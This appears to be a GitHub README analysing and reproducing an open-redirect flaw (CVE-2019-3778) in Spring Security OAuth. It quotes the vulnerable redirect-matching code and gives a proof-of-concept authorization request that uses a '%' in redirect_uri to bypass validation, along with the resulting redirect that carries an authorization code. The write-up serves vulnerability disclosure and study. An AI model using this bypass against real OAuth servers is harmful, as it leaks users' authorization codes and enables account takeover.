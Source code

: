 # CVE-2019-3778-Spring-Security-OAuth-2.3-Open-Redirection
Spring Security OAuth 2.3 Open Redirection  分析复现篇


# Exploit Title: Open Redirector in spring-security-oauth2
# Date: 17 June 2019
# Exploit Author: Riemann
# Vendor Homepage: https://spring.io/projects/spring-security-oauth
# Software Link: https://spring.io
# Version: Spring Security OAuth versions 2.3 prior to 2.3.6 -org.springframework.security.oauth:spring-security-oauth2:2.3.3.RELEASE
# Tested on: UBUNTU 16.04 LTS -org.springframework.security.oauth:spring-security-oauth2:2.3.3.RELEASE
# CVE : CVE-2019-11269 | CVE-2019-3778

# Description
Spring Security OAuth versions 2.3 prior to 2.3.6, 2.2 prior to 2.2.5, 2.1 prior to 2.1.5, and 2.0 prior to 2.0.18, as well as older unsupported versions could be susceptible to an open redirector attack that can leak an authorization code. A malicious user or attacker can craft a request to the authorization endpoint using the authorization code grant type, and specify a manipulated redirection URI via the redirect_uri parameter. This can cause the authorization server to redirect the resource owner user-agent to a URI under the control of the attacker with the leaked authorization code.	


#VULNERABILITY:
By manipulating the REDIRECT_URI parameter, an attacker can actually bypass the validation.

The code causing the vulnerability is found under the package org.springframework.security.oauth2.provider.endpoint
The Class: DefaultRedirectResolver, which method obtainMatchingRedirect does not proper sanitation 

/**
	 * Attempt to match one of the registered URIs to the that of the requested one.
	 * 
	 * @param redirectUris the set of the registered URIs to try and find a match. This cannot be null or empty.
	 * @param requestedRedirect the URI used as part of the request
	 * @return the matching URI
	 * @throws RedirectMismatchException if no match was found
	 */
	private String obtainMatchingRedirect(Set<String> redirectUris, String requestedRedirect) {
		Assert.notEmpty(redirectUris, "Redirect URIs cannot be empty");

		if (redirectUris.size() == 1 && requestedRedirect == null) {
			return redirectUris.iterator().next();
		}
		for (String redirectUri : redirectUris) {
			if (requestedRedirect != null && redirectMatches(requestedRedirect, redirectUri)) {
				return requestedRedirect;
			}
		}
		throw new RedirectMismatchException("Invalid redirect: " + requestedRedirect
				+ " does not match one of the registered values: " + redirectUris.toString());
	}


#POC ATTACK VECTOR
The following request done by the CLIENT APP after the user has logged in, contains  the REDIRECT_URI parameter. The validation is bypassed by simply adding a percentage sign which triggers a redirect instead of the RedirectMismatchException error

The ORIGINAL REQUEST containing a valid URI:
GET /auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://localhost:8086/login/oauth2/code/ HTTP/1.1

The attacker then tricks the application by changing entirely the URI to another server adding a percentage for example:

GET /auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://%localhost:9000/login/oauth2/code/ HTTP/1.1
Host: localhost:8085
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8085/auth/login
Connection: close
Cookie: JSESSIONID=3394FD89204BE407CB585881755C0828; JSESSIONID=C0F1D5A2F1944DCB43F2BFFA416B7A63
Upgrade-Insecure-Requests: 1


The RESPONSE indeed does not produce an expected OAUTH error  but redirects the user :

HTTP/1.1 302 
Cache-Control: no-store
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Location: http://localhost:8086/login/oauth2/code/?code=4ecsea&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D
Content-Language: en-US
Content-Length: 0
Date: Mon, 17 Jun 2019 11:06:18 GMT
Connection: close
            
